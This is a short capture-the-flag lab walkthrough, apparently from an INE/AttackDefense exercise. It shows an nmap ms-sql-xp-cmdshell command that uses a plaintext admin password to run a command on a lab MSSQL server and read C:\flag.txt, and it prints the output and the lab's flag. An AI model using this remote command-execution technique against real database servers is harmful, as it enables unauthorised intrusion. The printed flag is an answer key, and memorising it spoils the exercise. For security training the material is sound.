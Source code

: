 Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)

```
Target IP Address : 10.0.19.44
```

```
root@attackdefense:~# nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type C:\flag.txt" 10.0.19.44
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 10:49 IST
Nmap scan report for 10.0.19.44
Host is up (0.0034s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-xp-cmdshell: 
|   [10.0.19.44:1433]
|     Command: type C:\flag.txt
|       output
|       ======
|_      1d1803570245aa620446518b2154f324

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds

```

## 解决方案
此实验室的解决方案可在以下手册中找到：https://assets.ine.com/labs/ad-manuals/walkthrough-2313.pdf

[MSSQL](https://www.microsoft.com/en-in/sql-server/sql-server-2019)
